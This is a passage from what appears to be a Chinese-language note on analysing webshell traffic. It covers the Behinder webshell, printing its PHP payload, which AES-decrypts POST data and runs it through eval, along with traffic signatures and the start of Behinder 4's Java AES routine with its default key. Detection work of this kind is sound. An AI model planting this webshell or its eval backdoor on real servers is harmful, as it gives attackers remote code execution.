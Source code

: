 ```php
		$post=openssl_decrypt($post, "AES128", $key);
	}
    $arr=explode('|',$post);
    $func=$arr[0];
    $params=$arr[1];
	class C{public function __invoke($p) {eval($p."");}}
    @call_user_func(new C(),$params);
?>
```

#### 流量特征

- 冰蝎最小的流量包，**请求头的content length都大于5000**。
- 采用POST方式进行连接。
- 数据包中都是base64编码，WAF无法防御。

![img](images/Webshell流量分析/202211091045328.png)

### Behinder 冰蝎4

#### 基础代码

冰蝎 4 内置传输协议：
- default_xor
- default_xor_base64
- default_aes
- default_image
- default_json
- aes_with_magic

default aes 加密函数：

```java
    private byte[] Encrypt(byte[] data) throws Exception
    {
        String key="e45e329feb5d925b";
        byte[] raw = key.getBytes("utf-8");
        javax.crypto.spec.SecretKeySpec skeySpec = new javax.crypto.spec.SecretKeySpec(raw, "AES");
        javax.crypto.Cipher cipher =javax.crypto.Cipher.getInstance("AES/ECB/PKCS5Padding");// "算法/模式/补码方式"
        cipher.init(javax.crypto.Cipher.ENCRYPT_MODE, skeySpec);
        byte[] encrypted = cipher.doFinal(data);
        Class baseCls;
        try
        {
            baseCls=Class.forName("java.util.Base64");
            Object Encoder=baseCls.getMethod("getEncoder", null).invoke(baseCls, null);
```